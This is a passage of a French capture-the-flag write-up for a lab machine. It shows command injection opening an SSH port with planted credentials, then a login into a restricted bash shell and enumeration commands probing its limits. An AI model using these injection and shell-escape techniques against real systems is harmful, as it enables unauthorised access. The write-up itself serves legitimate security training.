 ```plain
breakout
/bin/sed -i 's/^#//' /etc/sysconfig/iptables
/sbin/iptables-restore < /etc/sysconfig/iptables
Service started...
Use avida:dollars to access.
/nginx/usr/share/nginx/html/breakout
```

On injecte une commande pour appeler *sysadmin-tool --activate-service* et bing ! Un port 22 (SSH) est ouvert sur lequel on peut se connecter avec le login *avida* et le mot de passe *dollars*.  

Prison break
------------

Une fois connecté on a la joie (ou pas) de se retrouver dans un bash restreint (*rbash*) :  

```plain
$ ssh avida@192.168.1.21
avida@192.168.1.21's password: 
Last login: Mon Mar 17 17:13:40 2014 from 10.0.0.210
-rbash-4.1$ ls -al
total 36
drwxr-x---. 3 root avida 4096 17 mars  12:40 .
drwxr-xr-x. 3 root root  4096 30 mai   19:04 ..
-rw-r-----. 1 root avida  100 17 mars  11:57 .bash_history
-rw-r-----. 1 root avida   10 17 mars  12:37 .bash_login
-rw-r-----. 1 root avida   10 17 mars  12:37 .bash_logout
-rw-r-----. 1 root avida   10 17 mars  12:37 .bash_profile
-rw-r-----. 1 root avida   32 17 mars  12:39 .bashrc
-rw-r-----. 1 root avida   10 17 mars  12:37 .profile
drwxr-xr-x. 3 root avida 4096 17 mars  12:40 usr
-rbash-4.1$ pwd
/home/avida
-rbash-4.1$ env
-rbash: env : commande introuvable
-rbash-4.1$ which vi vim python
-rbash: /usr/bin/which : restriction : « / » ne peut pas être spécifié dans un nom de commande
-rbash-4.1$ ls /
bin  boot  dev  etc  home  lib  lost+found  media  mnt  nginx  opt  proc  root  sbin  selinux  srv  sys  tmp  usr  var
-rbash-4.1$ cat .bash_history
ls -al
sudo
sudo -l
clear
exit
ls -al
cd /nginx/
ls -al
cd /nginx/usr/share/nginx/html/
ls -al
exit
-rbash-4.1$ sudo -l
-rbash: sudo : commande introuvable
-rbash-4.1$ python
-rbash: python : commande introuvable
-rbash-4.1$ find / -type f -name python 2> /dev/null
-rbash: /dev/null : restreint : impossible de rediriger la sortie
-rbash-4.1$ echo $PATH
/home/avida/usr/bin
-rbash-4.1$ export -p
--- snip ---
declare -x HOME="/home/avida"
declare -x HOSTNAME="persistence"
declare -x LOGNAME="avida"
```
